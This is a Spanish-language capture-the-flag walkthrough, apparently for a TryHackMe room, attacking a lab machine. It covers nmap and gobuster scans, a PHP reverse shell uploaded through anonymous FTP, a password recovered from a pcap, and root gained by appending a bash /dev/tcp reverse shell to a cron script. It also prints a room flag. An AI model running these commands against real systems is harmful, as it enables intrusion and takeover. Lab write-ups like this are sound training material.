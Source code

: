 Lo primero que haremos será hacer un nmap con el siguiente comando: 
sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79

Ahora intentamos hacer fuzzing 
gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt 

Y miramos y hay un /files si accedemos podemos ver que hay un servidor ftp:
Intentamos conectarnos con anonymous con el siguiente comando: 

ftp anonymous@10.10.92.79

![img](img/img01.png)
 
Una vez dentro haremos un put e intentaremos meter una reverse shell: 
put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php
Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: 
nc -lvnp 1234 y ya hemos entrado, ahora vamos a upgradear la shell con: 
python -c 'import pty; pty.spawn("/bin/bash")'

![img](img/img02.png)
 
Y sale que el ingrediente es /love, así que ya tenemos la primera respuesta.
Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp
Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

![img](img/img03.png)
 
Y ahora intentamos entrar por ssh con el siguiente comando: 
ssh lennie@10.10.92.79 y ya estamos dentro.
 
![img](img/img04.png)

Si hacemos un cat user.txt vemos la segunda flag la cual es: THM{***************}

Ahora haremos el siguiente comando para ver los binarios: 
find / -perm -u=s -type f 2>/dev/null
Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se está actualizando, por lo tanto lleva un crontab y una tarea programada.

![img](img/img05.png)
 
Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.
Usando pspy64 pude ver que planner.sh se ejecuta cada minuto y modifica el contenido de startup_list.txt. 

![img](img/img06.png)

 
Ahora haremos este comando para modificar /etc/print.sh
echo “bash -i >& /dev/tcp/<attackbox_ip>/<listening_port> 0>&1” >> /etc/print.sh”
Ahora pondremos el comando rlwrap nc .nlvp 4444 y en un minuto tendremos ya la Shell, accedemos con un ls y ya tenemos la flag: THM{f963aaa6a430f210222158ae15c3d76d}

![img](img/img07.png)
